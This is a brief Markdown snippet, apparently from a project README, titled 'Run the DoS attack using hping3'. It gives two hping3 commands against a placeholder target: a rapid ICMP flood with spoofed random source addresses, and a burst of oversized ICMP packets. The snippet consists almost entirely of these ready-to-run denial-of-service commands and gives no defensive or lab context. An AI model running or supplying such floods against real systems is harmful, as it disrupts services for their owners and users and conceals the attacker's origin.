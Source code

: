 ## Run the DoS attack using hping3

```
sudo hping3 -1 -i u100 -c 100000 - rand-source {target_ip}
```

or 

```
sudo hping3 -1 -d 15000 -c 10 {target_ip}
```